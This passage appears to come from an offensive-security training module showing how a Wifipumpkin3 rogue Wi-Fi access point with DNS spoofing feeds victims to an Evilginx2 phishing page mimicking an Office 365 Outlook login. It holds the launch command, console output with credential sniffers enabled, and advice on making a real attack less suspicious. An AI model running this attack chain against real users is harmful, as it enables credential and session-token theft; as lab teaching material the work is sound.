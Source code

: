 <code>redirectTo</code> - Select the IPv4 address configured for the <code>router</code> in Wifipumpkin3 initially.</li>
</ul>
<p>Once saved, we can apply the pulp to the Wifipumpkin3 initialization with the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo wifipumpkin3 -p evilginx_config.pulp

[..SNIP..]

[*] plugin: evilginx_config.pulp
================================


[*] DnsSpoof attack
===================

[*] Redirect to: 172.16.0.1 

[*] Targets:
============

[*] -&gt; [login.fakedomain.com] 
[*] -&gt; [account.fakedomain.com] 
[*] -&gt; [outlook.fakedomain.com] 
[*] -&gt; [*.fakedomain.com] 
[*] module: dns_spoof running in background
[*] use jobs command displays the status of jobs started
[+] enable forwarding in iptables...
[*] sharing internet connection with NAT...
[*] setting interface for sharing internet: None 
[*] settings for Phishkin3 portal:
[*] allow FORWARD UDP DNS
[*] allow traffic to Phishkin3 captive portal
[*] block all other traffic in access point
[*] redirecting HTTP traffic to captive portal
[+] starting hostpad pid: [25487]
wp3 &gt; [+] hostapd is running
[*] starting pydhcp_server
[+] starting phishkin3 pid: [25492]
[*] starting sniffkin3 port: [80, 8080]
[+] sniffkin3 -&gt; ftp        activated
[+] sniffkin3 -&gt; emails     activated
[+] sniffkin3 -&gt; httpCap    activated
[+] sniffkin3 -&gt; kerberos   activated
[+] sniffkin3 -&gt; hexdump    activated

[..SNIP..]

 * Running on http://172.16.0.1:8080
</code></pre>
<hr/>
<h1>Launching the attack</h1>
<p>This demonstration attack leverages a Wifipumpkin3 evil portal to redirect victims to an Evilginx2 phishing page mimicking an Office 365 Outlook login. While this exact scenario may not be entirely realistic, it effectively illustrates how authentication tokens are handled within the attack chain. Once the victim logs into the phishing page, their authentication is seamlessly forwarded to the legitimate Outlook web app, granting them access without requiring an additional login. This showcases the power and effectiveness of session hijacking in modern phishing attacks.</p>
<p>To prevent the use of a real phishing domain during testing, the <code>-developer</code> option is enabled in Evilginx2. This disables automatic TLS certificate generation for <code>fakedomain.com</code>, but as a result, users will encounter an untrusted website warning in their browsers. In a real-world attack, an attacker-controlled domain with a valid TLS certificate should be used, and the <code>-developer</code> option should be turned off to avoid raising suspicion. Below, we showcase both perspectives of the attack, in a step-by-step manner.</p>